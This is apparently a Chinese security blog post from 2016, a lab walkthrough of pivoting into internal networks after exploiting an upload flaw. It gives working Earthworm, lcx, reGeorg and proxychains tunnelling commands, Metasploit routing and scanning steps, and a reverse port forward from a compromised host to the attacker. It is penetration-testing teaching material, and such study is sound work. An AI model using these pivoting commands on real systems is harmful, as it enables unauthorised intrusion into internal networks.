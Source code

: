 ```yaml
---
layout: post
title: "内网代理那些事"
date: 2016-12-10
description: "内网渗透代理"
tag: 渗透测试 
---
```


有时候，经常在穿梭在行行种种的内网环境中，选择一个合适的代理方式十分重要，网上各式各样的代理工具和脚本也很多，本次实验环境尽可能的模拟真实的网络环境。本次实验分为两种情况:1.一种是被入侵的机器，能够反问道攻击机器(模拟现实中，肉鸡可以反弹的情况)。2:另外一种是被入侵的机器无法访问任何外网，只是被一个外网ip出口单纯的映射了一个端口出来。(可以想象一台公网vps机器映射了无数台web虚拟机)
## 实验环境(情况一)
### 攻击机器
kali一台 (10.211.55.3)
### 靶机

O s   | Service      | Ip          | WeakPoint
----- | ------------ | ----------- | -----------
ubuntu|  php,apache  | 172.17.0.2  |   upload  
centos|  discuz      | 172.17.0.4  |   weak password
debian|  tomcat      | 172.17.0.3  |   s2-032

其中第一个服务映射出一个外网端口80，简而言之就是，现在攻击机可以访问http://10.211.55.6/upfile.php ，这是唯一一个可以被kali访问的服务。

上传导致的问题，直接伪造下Content-Type: image/jpeg就可以上传了。
![](http://ohsqlm7gj.bkt.clouddn.com/16-12-12/25588032-file_1481520064910_eb72.png)
![](http://ohsqlm7gj.bkt.clouddn.com/16-12-12/97996972-file_1481520314428_1465e.png)
![](http://ohsqlm7gj.bkt.clouddn.com/16-12-12/70510614-file_1481520610181_eb7a.png)

首先利用reGeorg不成功，很明显由于权限和一些php阉割的原因,socket代理不上。通过自己写的webshell方式代理的话，也只能做一些简单的http协议的事情，很显然不符合我们的需求。
###Earthworm
[下载地址](http://rootkiter.com/EarthWorm/download/ew.zip)
好像长城宽带就下不了，如果下不了的话，请自行翻墙。这里肯定是正向代理的方式。
在webshell上执行
```
/ew -s ssocksd -l 2333
```
然后攻击机proxychains 应用就行了，记得在/etc/proxychains.conf后面加上socket5 10.211.55.6 2333，反正我测试失败了。
### reGeorg
reGeorg使用也很简单，上传一个
![](http://ohsqlm7gj.bkt.clouddn.com/16-12-12/19757624-file_1481535483786_f279.png)
然后本机
![](http://ohsqlm7gj.bkt.clouddn.com/16-12-12/22422179-file_1481535602124_26a.png)
调用nmap扫描
```
nmap -sT -Pn -A -sI 192.168.1.101 192.168.1.108
```
只支持tcp和dns协议

攻击机
```
proxychains wget http://172.17.0.4/index.php
```
进一步拓展，reGeorg很方便，基本可以满足我们绝大部分的需求，可是我想充分利用好kali 的msf来渗透怎么办，这时候又无法反弹。
### MSF
正向代理
先生成一个后门

![](http://ohsqlm7gj.bkt.clouddn.com/16-12-12/32718743-file_1481542234272_674b.png)

通过菜刀上传到根目录，然后执行一下
![](http://ohsqlm7gj.bkt.clouddn.com/16-12-12/29369845-file_1481543347496_160ff.png)
![](http://ohsqlm7gj.bkt.clouddn.com/16-12-12/34845144-file_1481543396810_158c9.png)
很显然一个shell是无法满足我们的要求的，我们要把shell提升到meterpreter
```
sessions -u 5
```
![](http://ohsqlm7gj.bkt.clouddn.com/16-12-12/40003229-file_1481544375579_1e40.png)
查看ip
![](http://ohsqlm7gj.bkt.clouddn.com/16-12-12/16243890-file_1481544578165_e0aa.png)
或者也可以
```
run get_local_subnets
```
![](http://ohsqlm7gj.bkt.clouddn.com/16-12-12/92513586-file_1481544921373_b0d2.png)
添加路由
```
route add 172.17.0.2 255.255.0.0 7
```
查看下路由
```
route  print
```
![](http://ohsqlm7gj.bkt.clouddn.com/16-12-12/70794383-file_1481544696603_248d.png)
内网扫描搞起，2333
扫存活ip
```
 auxiliary/scanner/ip/ipidseq
```
扫端口
```
use auxiliary/scanner/portscan/tcp 
```
![](http://ohsqlm7gj.bkt.clouddn.com/16-12-12/53703064-file_1481545692843_96e2.png)
这里很容易就挂掉
后面就是类似的操作，可以参考文章
[科普：msf内网渗透实例](http://www.91ri.org/5462.html)

开一个sock4代理
先添加路由在用socks4a模块,不过这玩意用着贼卡
```
use auxiliary/server/socks4a
```
![](http://ohsqlm7gj.bkt.clouddn.com/16-12-12/54432202-file_1481546334683_1b60.png)
查看jobs
```
jobs
```
### 总结
如果遇到这种流量只进不出的情况，也就是常说的正向代理，那么可以推荐用reGeorg+ proxychains的方式来加载网页或者运行一些python攻击脚本，然后用msf来对内网进行扫描或者域渗透
## 实验环境(情况二)
### 攻击机器
kali一台 (10.211.55.3)
### 靶机

O s   | Service      | Ip          | WeakPoint
----- | ------------ | ----------- | -----------
ubuntu|  php,apache  | 172.17.0.2  |   upload  
centos|  discuz      | 172.17.0.4  |   weak password
debian|  tomcat      | 172.17.0.3  |   s2-032

情况二简而言之就是可以反弹出shell,可以理解成172.17.0.2这台机器可以访问我们攻击机(10.211.55.3)
这个情况就要好很多了，可以用的方法很多. Earthworm,lcx,ssok
### lcx
先找到一台公网ip，说白了就是172.17.0.2可以ping通的机器，这里我们的攻击机是可以被肉鸡ping通的。
![](http://ohsqlm7gj.bkt.clouddn.com/16-12-12/58321104-file_1481554606059_55cb.png)
kali上
![](http://ohsqlm7gj.bkt.clouddn.com/16-12-13/29379939-file_1481558631021_106a.png)
肉鸡上
```
/portmap -m 3 -h1 10.211.55.3 -p1 3349 -h2 172.17.0.4 -p2 80
```
我们再访问http://10.211.55.3:3348/forum.php
发现其实就是把172.17.0.4的discuz给映射到攻击的3348端口上来了。
![](http://ohsqlm7gj.bkt.clouddn.com/16-12-13/51180261-file_1481559043782_d783.png)

### Earthworm
由于Earthworm包含lcx的用法，也可以直接用它来转发
现在kali(10.211.55.3)机器上监听转发
```
/ew_for_linux64 -s lcx_listen -l 1234 -e 8888
```
肉鸡上运行
```
./ew -s lcx_slave -d 10.211.55.3 -e 1234 -f 172.17.0.3 -g 8080
```
![](http://ohsqlm7gj.bkt.clouddn.com/16-12-13/84717905-file_1481560699829_6c6f.png)
是一个struts漏洞
![](http://ohsqlm7gj.bkt.clouddn.com/16-12-13/99909988-file_1481561584244_13369.png)

### MSF
反向代理
先生成一个反弹后门
![](http://ohsqlm7gj.bkt.clouddn.com/16-12-13/33842844-file_1481562319028_730.png)
![](http://ohsqlm7gj.bkt.clouddn.com/16-12-13/12498651-file_1481562542743_e05a.png)

msf设置一下
![](http://ohsqlm7gj.bkt.clouddn.com/16-12-13/68508804-file_1481561925699_7244.png)
反弹成功
![](http://ohsqlm7gj.bkt.clouddn.com/16-12-13/95784446-file_1481562590545_148e.png)






## 拓展学习
[Shell反弹不出来怎么办呢？](http://www.91ri.org/11722.html)
[tunna 正向代理实现转发](http://lizhaojackson.lofter.com/post/1d50c172_ac7ccbf)
[内网渗透中转发工具总结 - TwoEyes](http://anyun.org/a/jishuguanzhu/wangluoanquan/loudongfenxiang/WooYu/2016/0924/6917.html)

      
